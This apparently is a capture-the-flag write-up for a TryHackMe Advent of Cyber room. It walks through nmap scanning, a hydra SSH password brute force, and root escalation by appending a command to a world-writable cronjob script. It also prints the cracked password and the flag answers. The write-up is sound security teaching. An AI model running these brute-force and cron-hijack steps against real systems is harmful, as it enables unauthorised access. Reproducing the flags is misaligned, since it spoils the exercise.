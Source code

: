 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 20
### References
* MuirlandOracle. (2020, January 6). MuirlandOracle. MuirlandOracle’s Blog. https://muirlandoracle.co.uk/2020/01/06/tryhackme-christmas-2019-challenge-write-up/
## What port is SSH running on?
* According to the hint:
> Use `nmap` to enumerate services on ports 4000 and 5000.

```bash
$ sudo nmap -sV -p 4000-5000 -vv 10.10.138.13
PORT     STATE SERVICE REASON         VERSION
4567/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Answer**: `4567`
## Crack Sam's password and read `flag1.txt`
1. Use `hydra` to crack Sam's SSH password:
```bash
$ hydra -l sam -P rockyou.txt ssh://10.10.138.13 -s 4567
[4567][ssh] host: 10.10.138.13   login: sam   password: chocolate
```
2. Connect to his server using SSH:
```bash
$  ssh sam@10.10.138.13 -p 4567
sam@10.10.138.13's password: chocolate
sam@ip-10-10-138-13:~$ ls
flag1.txt
sam@ip-10-10-138-13:~$ cat flag1.txt 
THM{dec4389bc09669650f3479334532aeab}
```

**Flag 1**: `THM{dec4389bc09669650f3479334532aeab}`
## Escalate your privileges by taking advantage of a cronjob running every minute. What is the 2nd flag?
1. The `/home/scripts` is owned by the `root` user:
```bash
sam@ip-10-10-138-13:~$ ls -la /home
total 20
drwxr-xr-x  5 root   root   4096 Dec 19  2019 .
drwxr-xr-x 23 root   root   4096 Jun 30 04:01 ..
drwxr-xr-x  3 sam    sam    4096 Dec 19  2019 sam
drwxrwxrwx  2 root   root   4096 Dec 19  2019 scripts
drwxr-xr-x  6 ubuntu ubuntu 4096 Dec 19  2019 ubuntu
```
2. The `/home/scripts/clean_up.sh` file is owned by the `ubuntu` user which might indicate that it is used by a cronjob:
```bash
sam@ip-10-10-138-13:~$ ls -la /home/scripts/
total 16
drwxrwxrwx 2 root   root   4096 Dec 19  2019 .
drwxr-xr-x 5 root   root   4096 Dec 19  2019 ..
-rwxrwxrwx 1 ubuntu ubuntu   14 Dec 19  2019 clean_up.sh
-rw-r--r-- 1 root   root      5 Dec 19  2019 test.txt
```
3. The `/home/scripts/clean_up.sh` removes the contents of the `/tmp` directory which used to store temporary content:
```bash
sam@ip-10-10-138-13:~$ cat /home/scripts/clean_up.sh 
rm -rf /tmp/*
```
2. The 2nd flag is located in `ubuntu`'s home directory:
```bash
sam@ip-10-10-138-13:~$ find /home -type f -name "flag2*"
find: ‘/home/ubuntu/.ssh’: Permission denied
find: ‘/home/ubuntu/.cache’: Permission denied
/home/ubuntu/flag2.txt
```
3. Add `chmod 404 /home/ubuntu/flag2.txt` to the end of `/home/scripts/clean_up.sh` in order to change its read permissions.
4. Wait for a minute and read `/home/ubuntu/flag2.txt`:
```
sam@ip-10-10-138-13:~$ cat /home/ubuntu/flag2.txt
THM{b27d33705f97ba2e1f444ec2da5f5f61}
```

**Flag 2**: `THM{b27d33705f97ba2e1f444ec2da5f5f61}`